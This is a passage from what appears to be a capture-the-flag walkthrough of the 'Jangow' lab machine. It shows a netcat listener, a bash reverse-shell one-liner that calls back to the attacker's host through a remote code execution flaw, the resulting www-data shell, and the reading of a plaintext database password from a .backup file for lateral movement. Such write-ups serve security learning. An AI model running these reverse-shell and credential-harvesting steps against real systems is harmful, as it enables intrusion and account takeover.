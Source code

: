I was just kidding, let's start our `netcat` listener on port 443:

```zsh
❯ nc -lvnp 443
listening on [any] 443 ...
```

And with the `RCE`, we will send us a `reverse shell`. We will use the tipical `oneliner`:

```bash
bash -c "bash -i >& /dev/tcp/192.168.0.106/443 0>&1"
```

But to get this working, we will need to `urlencode` this payload. To do this, we will replace the `>&` for `>%26`. Our url should look like this:

![](/assets/img/jangow/5.png)

Now, hit `ENTER` and the web will get loading, but if you check your `netcat` listener, you should get a shell:

```zsh
❯ nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.0.106] from (UNKNOWN) [192.168.0.110] 49398
bash: cannot set terminal process group (2786): Inappropriate ioctl for device
bash: no job control in this shell
www-data@jangow01:/var/www/html/site$ 
```

Perfect!!! We have a shell as `www-data`. Now, we have to check how we can pivot to the user `jangow01` we can see doing an `ls /home` command:

```bash
www-data@jangow01:/var/www/html/site$ ls /home
jangow01
www-data@jangow01:/var/www/html/site$
```
## Lateral movement 

- - -

To get on the machine as the user `jangow01`, it's as simple as do a `cat` to an specific file. Just moving a directory back, we can notice about a `.backup` file. If we watch the content of this file, we can see the `jangow01`'s password:

```bash
www-data@jangow01:/var/www/html/site$ cd ..
www-data@jangow01:/var/www/html$ ls -la
total 16
drwxr-xr-x 3 root     root     4096 Oct 31  2021 .
drwxr-xr-x 3 root     root     4096 Oct 31  2021 ..
-rw-r--r-- 1 www-data www-data  336 Oct 31  2021 .backup
drwxr-xr-x 6 www-data www-data 4096 Jun 10  2021 site
www-data@jangow01:/var/www/html$ cat .backup
$servername = "localhost";
$database = "jangow01";
$username = "jangow01";
$password = "abygurl69";
// Create connection
$conn = mysqli_connect($servername, $username, $password, $database);
// Check connection
if (!$conn) {
    die("Connection failed: " . mysqli_connect_error());
}
echo "Connected successfully";
```